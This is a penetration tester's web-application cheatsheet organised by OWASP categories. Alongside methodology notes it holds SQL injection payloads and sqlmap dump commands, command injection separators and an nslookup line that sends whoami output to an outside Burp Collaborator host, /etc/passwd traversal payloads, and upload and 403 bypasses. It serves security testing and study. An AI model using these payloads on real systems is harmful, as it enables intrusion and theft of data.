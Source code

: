 
# Methodology // Exploitation Cheatsheet

[OWASP Top 10](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)

[OWASP checklist](https://github.com/tanprathan/OWASP-Testing-Checklist)

  - Follow along with [OWASP release 4.0](https://www.owasp.org/images/1/19/OTGv4.pdf) for each section

<details>
  <summary>Enumeration</summary>
  <br>
  
  ## Content discovery
  
   - What is the server running on/versions?
    - Wappalyzer 
    - Response headers
    - Inspect source
    - Fingerprint server
    
          httprint -P0 -h <IP> -s /usr/share/httprint/<signature file>
  
  ## Vulnerability/misconfiguration scanning
  
   - Nikto 
   
   - [Header scanning](https://securityheaders.com/)

  
  [Visual site mapper](http://www.visualsitemapper.com/)
  
  Wappalyzer extension for server/web app details
  
  ## Subdomain discovery
  
  - Sublist3r (scraping)
  - SubFinder-o
  - [assetfinder](https://github.com/tomnomnom/assetfinder)
   
        assetfinder <domain.TLD>
        
         By default will also find related assets that may not be in the searched domain.
        
          --subs-only   #will only find subdomains
   
  - AMass
  
  - [gowitness](https://github.com/sensepost/gowitness)
  
     Takes screenshots of websites
  
  - [httprobe](https://github.com/tomnomnom/httprobe)
  
      Will check if subdomains responds
 
  - [waybackurls](go get github.com/tomnomnom/waybackurls)
  
      Checks URLs against the wayback machine
  
  ## Directory discovery
  
  - gobuster 
      
        gobuster dir -u <URL> -w <wordlist>
        
         -c <cookie> specify cookie
        
         -e <extensions>
         
         -P string
                 Password for Basic Auth (dir mode only)
         -U string
                 Username for Basic Auth (dir mode only)
  
 Wordlists
 
    /usr/share/wordlists/dirb/
    /usr/share/wordlists/dirbuster/
</details>

<details>
<summary>Learning the application</summary>
  While running Burp, run through the site.
  How is everything handled? (pages, files, auth)
  What is the application for? (Photo storage, blog, store)
  
</details>

<details>
  <summaryHTTP version syntax</summary>
  <br>
  
  **HTTP/1.0** 
   
      GET <resource> HTTP/1.0
      
  **HTTP/1.1** 
   
      GET <resource> HTTP/1.0
      Host: <domain>.<tld>
  
</details>


<details>
  <summary>Exploiting Misconfigured HTTP Verbs</summary>
  <br>
  
  **DELETE** 
   
        DELETE  <resource> HTTP/1.0
        
  **PUT**
  
        PUT /<filename for upload> HTTP/1.0 
        Content-type: text/html
        Content-length: <size of upload. Burp will auto count>
        
        
        <script>
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>SQLi</summary>
  <br>
  
  [SQL Syntax](https://www.w3schools.com/sql/sql_intro.asp) 
  
  [Injection](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)
  
  SQL statements begin with verbs.
 - Common SQL verbs:
        - SELECT
        - INSERT
        - DELETE
        - UPDATE
        - DROP
        - UNION
   
   - Terms:
        - WHERE - Filters records based on specific condition
        - AND/OR/NOT - Filter records based on multiple condtions
        - ORDER BY - Sorts records in ascending/descending order
        
   - Special characters:
        - ' and " - string delimeters
        - -- , /* and #  - Comment delimiters
        - * and %  - wildcards
        - ; - ends SQL statement
        - Others that follow programmatic logic - = , + , > , < , () , etc
        
   **Test vectors**
   
     - GET parameters
    
        Note on comments for GET requests: not just two dashes and a space, also add a third dash. Because most of the browsers automatically remove trailing spaces in the URL so, if you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment i.e. -- -

     
     - POST parameters
     - HTTP Headers
       - UA
       - Cookies
       - Accept 
       - Etc
       
   **Test input**
   
     •String terminators: 'and "
     •SQL commands: SELECT, UNION, and others
     •SQLcomments:#or--
     
      **Exploit**
         
  **Boolean based SQLi**
  
   Trying blind SQL to figure out the contents of a field
  
       ' or substr(user(), 2, 1)= 'a
       
  **Union based**
  
   For if output is directly displayed on the output page. To exploit a SQL injection, you first need to know how many fields the vulnerable query selects. Which is done by trial and error.
   
    ' UNION SELECT null; --
    ' UNION SELECT null, null; --

  Each null represents a field. Usually an SQL error page will represnt that we have the wrong number of fields. An SQL "false" (try to determine this once an SQLi has been discovered, i.e paramter image=<sql>, true=image loads, false=broken image) condition will represent that we have guessed the correct total of fields (do one extra just in case). 
  
   Other payloads:
   
     ' UNION SELECT <SQL command>; --
     
     user() gets user running SQL
     
 SQLMap once vectors have been identified: 
 
   [Cheatsheet 1](https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d)
   
   sqlmap with GET request
   
     sqlmap -u <url><resource>?id=1 -p id
     
   sqlmap with POST request
   
     use Burp to save the injectable request to a text file
     
     sqlmap -r POSTrequest.txt -p <injectable parameter>
     
   Get tables
     
     sqlmap -u <url><resource>?id=1 -p id --tables
     
   Get contents
   
    sqlmap -u <url><resource>?id=1 -D awd -T accounts --dump

   SQL query example:
   
        <verb> <* or column> FROM <Table name> WHERE <Term / Condition> 
</details>


<details>
  <summary>Broken Authentication</summary>
  <br>
   
   [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

   Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.
   
    - Testing login/password recovery error for username enumeration
    
    - Session fixation
        - How are session IDs handled? In URL or cookie? Are they encrypted/handled properly?
        - Does logging out revoke the cookie? Immediatly?
        - Is there a timeout on the session cookie?

</details>


<details>
  <summary>Sensitive Data Exposure</summary>
  <br>
   
 [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
 
 Many web applications and APIs do not properly protect sensitive data, such as financial, healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra protection, such as encryption at rest or in transit, and requires special precautions when exchanged with the browser.
 
   - Stored credentials in site/site scripts
   
   - Backup directories
   
   - Dev directories
   
   - Internal data
   
   - Not in a dir accessable to anyone
   
   - Not Encrypted sensitive data if accessible
   
   - Are appropriate headers applie so attacks against a session cannot occur? Mitm/downgrade/etc
      - [Header scanning](https://securityheaders.com/)
      
   - Does it support new/degraded encryption. 
       
         nmap --script=ssl-enum-ciphers -p 443 <URL>
</details>


<details>
  <summary>XXE</summary>
  <br>
   
   [XML External Entities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
   
   Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks. An XML entity is like a variable that you can call into the page later. On the page you care only able to use alphanumeraic characters for strings, however you can call in an entity that contains special characters. You will notice the SYSTEM key word to let the parser know that the resource is external, i.e can pull data from the system. 
   
   [XXE Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
   
  
</details>

<details>
  <summary>Broken Access Control</summary>
  <br>
  
  [Broken Access Controls](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
  
  Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc


   - Look for client side code that handle data incorrectly
       - Hidden fields that have password/ UID data that can be minipulated
       - Cookies that improperly control access (i.e IsAdmin cookie)
       - 
   
   <details>
    <summary>403 restrictions bypass</summary>
     <br>
   
     Try other HTTP methods
   
       Try headers:
   
       X-Original-URL: <path>
     
       X-Rewrite-URL: <path>
   
   </details>
</details>


<details>
  <summary>Security Misconfiguration</summary>
  <br>

   [Security Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)
   
   Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched/upgraded in a timely fashion.
</details>


<details>
  <summary>XSS</summary>
  <br>
   [XSS](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)) 
    
   [Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   
   XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites. Note that reflected and DOM based XSS require social engineering. 
   
  [Payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
   
   Blacklist bypassing:
    
     - Pay around with what is beng removed with input is entered. 
     
      + 
      
      <<  >> /
      
      Uppercase/lowercase
      
      encoding
   
</details>

<details>
  <summary>Insecure Deserialization</summary>
  <br>
   
   [Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)
   
   Taking data that is serialized (taking data, and converting it to a different format), and deserializing it. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks. 
   
   https://github.com/frohoff/ysoserial
   
</details>

<details>
  <summary>Using Components with Known Vulnerabilities</summary>
  <br>
   
   [Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities)
   
   Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts. Look for CVE or known vulnerabilities with software versions the target is running.
</details>

<details>
  <summary>Insufficient Logging&Monitoring</summary>
  <br>
   
   [Insufficient Logging&Monitoring](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring)
   
 Insufficient logging and monitoring, coupled with missing or ineffective integration with incident response, allows attackers to further attack systems, maintain persistence, pivot to more systems, and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over 200 days, typically detected by external parties rather than internal processes or monitoring.
</details>


<details>
  <summary>Parameters</summary>
  <br>
  
  Garbage info ( symbols, negative intigers)
  
  Other account tokens, token mixing
  
  HPP
  
</details>


<details>
  <summary>File Upload</summary>
  <br>
  
  Things to think about:
  
    - File size limit for DoS
  
    - Santized filenames ? buffer overflow
  
    - How are zip files handeled if accepted?
  
    - How are files renamed / accessed
  
    - Check Content-Type header
    
    - is it a blacklist or a whitelist
    
    - How are the files being varified? Name, POST form or file content?
  
  Payloads: 
  
   ## manual testing bypass
    
    .PhP .php3 .php5
    
    .php00.png
    
    .php (1).png
  
  ## Use Burp intruder against the wordlist inder /usr/share/wordlists/dirb/
    
    
   ## Editing upload request 
</details>


<details>
  <summary>Open redirects</summary>
  <br>
 
  If the site redirects.
  
  Server side: 
   
    - Referer in Http request
    - Checking if only relative / are allowed. // is a protocol agnostic, absolute URL. Try that.
  
  Client side:
  
    - window.location how is it checked? 
</details>

<details>
  <summary>Privilege Escalation</summary>
  <br>
  
  Cookies:
     How are sessions being held in cookies. Vuln to tampering (no digital sig)?
     What other info is in the cookies? 
     Try to see if the server will take untrusted data from your requests.
     Encrypted?
      
  <details>
  <summary>Try Horizontal escalation:</summary>
  <br>
  Horizontal privilege escalation occurs when an application allows the attacker to gain access to resources which normally would have been protected from an application or user. The result is that the application performs actions with the same but different security context than intended by the application developer or system administrator; this is effectively a limited form of privilege escalation (specifically, the unauthorized assumption of the capability of impersonating other users). 
  </details>   

  Finding a way tio make requests as an admin 
   
  <details>
  <summary>Vertical Escalation</summary>
  <br>
  This type of privilege escalation occurs when the user or process is able to obtain a higher level of access than an administrator or system developer intended, possibly by performing kernel-level operations. 
  </details>
</details>

<details>
  <summary>Session Fixation</summary>
  <br>
  
  Can you take control of an authenticated users session using the sessionID.
  
  - Use the sessionID that has already been established
  
  - Craft a sessionID and see if that sticks. i.e www.site.com/login?jsessionID=CraftedID 
    Login and see if the sessionID stays the same.
  
</details>


<details>
  <summary>Command Injection</summary>
  <br>

 Areas with user input that could have its handleing manipulated to run an OS command.

   Parrameters sent such as those in URLs i.e ?filename=  or user input.
  
  Command seperators which allow for commands to be chained together. 
   nix/Windows
   
    & 
    && (extra & separates the injected command from whatever follows the injection point.)
    |
    ||
    
   Unix
    
    ;
    0x0a or /n (newline)
    
   Unix. Back ticks or dollar character can be used to perform inline execution of an injected command within the original command. 
     
    ' Command ' 
    $(Command)
    
  Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

 Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to  terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 


  Useful commands 

    Purpose of command 	Linux 	Windows
    Name of current user 	whoami 	whoami
    Operating system 	uname -a 	ver
    Network configuration 	ifconfig 	ipconfig /all
    Network connections 	netstat -an 	netstat -an
    Running processes 	ps -ef 	tasklist 
    
   Blind:
    
   wait X seconds to test
   
     ping -c X 127.0.0.1 
     
   Rediecting blind output
   
    whoami > /<writable folder>
    
    Then naviage to that file  www.example.ca/<writeable file>
     
     
   Note that the file may only be accessable how the server allows it to be accessed. 
   Example: you write to an image directory but the server only allows the files to be accessed via 
      
       /image?filename=myfile.txt 
       so /image/myfile.txt may not work.
   
   Out-of-band
   
   Having the server interact with another system you control 
   
    ping BurpCollab
    
   Exfultrate data using out-of-band
   
    $(nslookup `whoami`.c2f2evzg76x5nz0z7m8uwsvvrmxdl2.burpcollaborator.net)
     
   Which will result in this request to my DNS server
    
   [![DNS-request.png](https://i.postimg.cc/L41gCYwc/DNS-request.png)](https://postimg.cc/23C536zG)

</details>

<details>
  <summary>Directory Traversal</summary>
  <br>
  Allows the reading of files on the server that is running the vulnerable application by manipulating a parameter. 
 
     /image?filename=../../../etc/passwd
 
 Attempt with abosule and relative paths as one or the other may be blocked/not blocked.
 
 Bypassing stripped traversal
 
  ....// and ...\/ will strip the detected ../ and ..\ from the centre and the outsides will come together to make ../.
  If what gets parsed / removed is responded use that to try to find a way to bypass. 
  
  encoding:
  
    ..%252f (takes away the 25 and you are left with the / encodded)
    ..%c0%af
  
  Some applications transmit the full path via the request, you may need to append your traversal to that.
 
    /image?filename=/var/www/images/../../../../etc.passwd
    
  Bypass required endings to a file
  
   %00 (null byte)
   
    passwd%00.png
    
  Note that depending on how the server sends thse back you may have to curl the request.
  
    curl https://ac8d1f3e1f7f4d4080c322dc0035009c.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg

 
</details>

<details>
  <summary>Sub Domain Takeover</summary>
  <br>
  
  If a sub domain that is found belonging to a target that is unused may be vulnerable to sub domain takeover. 
  
  Signs: 
  
  Exploit:
</details>


<details>
  <summary>SSRF</summary>
  <br>
  
  - Bypass SSRF fix. Change HTTP version from 1.1 to 0.9 and remove the host header completely. On HTTP/0.9 there is no need for a host header.
</details>



<details>
  <summary></summary>
  <br>
</details>
